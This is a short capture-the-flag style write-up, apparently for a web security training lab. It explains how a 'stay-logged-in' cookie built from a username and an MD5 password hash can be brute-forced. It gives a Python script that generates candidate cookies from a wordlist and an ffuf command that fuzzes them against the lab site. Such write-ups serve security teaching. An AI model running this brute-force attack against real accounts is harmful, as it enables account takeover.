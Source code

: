 # Lab description:

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing. 

The stay logged in cookies is generated this way:

username: + MD5 hash of the password
and then encoded in Base64

so we can generate the cookie list with the following python script

```python
import hashlib
import base64

prefix = "carlos:"
with open("input.txt", "r") as file:
    for word in file:
        word = word.strip()  # Remove newline
        md5_hash = hashlib.md5(word.encode()).hexdigest()
        result = prefix + md5_hash
        base64_encoded = base64.b64encode(result.encode()).decode()
        print(base64_encoded)
```

and then us ffuf to fuzz the codes
```bash
ffuf -w tokens.txt -u "https://0a5e00200487c7fb81b1c634004a0066.web-security-academy.net/my-account?id=carlos" -b "stay-logged-in=FUZZ" -ac
```
